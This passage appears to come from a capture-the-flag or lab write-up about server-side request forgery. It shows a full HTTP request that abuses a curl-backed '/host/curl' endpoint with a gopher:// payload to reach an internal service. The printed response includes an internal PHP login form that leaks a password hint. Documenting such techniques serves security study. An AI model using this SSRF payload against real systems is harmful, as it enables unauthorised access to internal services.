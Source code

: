 Since it uses CURL, we might be able to use the gopher protocol to make arbitrary TCP requests. The
following request confirms this.

```
POST /host/curl HTTP/1.1
Host: 176.32.76.86:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 57
Origin: http://176.32.76.86
Connection: close
Referer: http://176.32.76.86/

{
  "host": "gopher://176.32.76.86:80/_GET / HTTP/1.0%0A%0A"
}

```

Response received:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 839
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Content-Type,Authorization
Access-Control-Allow-Methods: GET,PUT,POST,DELETE,OPTIONS
Server: Werkzeug/2.0.2 Python/3.6.9
Date: Fri, 26 Nov 2021 06:24:15 GMT

HTTP/1.1 200 OK
Server: nginx/1.21.4
Date: Fri, 26 Nov 2021 06:24:15 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/5.6.40
Set-Cookie: PHPSESSID=d98365d1817dd9c2829f3dc9ec8bbffb; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache


<!DOCTYPEE html>
<html>
    <head>
        <meta charset="UTF-8">
    </head>
    <body>
    <div class="message"></div>
        <form action="index.php" method="post">
            <p>
                username: <input type="text" name="username" value="user1">
            </p>
            <p>
        password: <input type="password" name="password">
        <!-- ...password 1234 -->
            </p>
            <input type="submit" value="send">
        </form>
    </body>
```